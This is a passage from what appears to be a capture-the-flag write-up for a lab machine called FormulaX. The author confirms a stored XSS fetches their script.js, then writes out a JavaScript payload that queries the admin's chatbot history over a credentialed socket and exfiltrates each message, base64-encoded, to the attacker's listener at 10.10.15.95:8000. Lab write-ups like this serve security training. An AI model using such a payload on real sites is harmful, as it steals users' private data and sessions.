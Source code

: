![sended xss payload that interprets my script.js](/assets/images/FormulaX/sended-xss-payload-interprets-my-script.js.png)

And I successfully receive a connection requesting my script.js:

![request to script.js](/assets/images/FormulaX/request-to-script.js.png)

I will create my script.js to see the admin's history with the chatbot like this:

```javascript
const res = axios.get(`/user/api/chat`);
const socket = io('/',{withCredentials: true});
socket.emit('client_message', 'history');
socket.on('message', (my_message) => {
  fetch('http://10.10.15.95:8000/?msg=' + btoa(my_message));
});
```
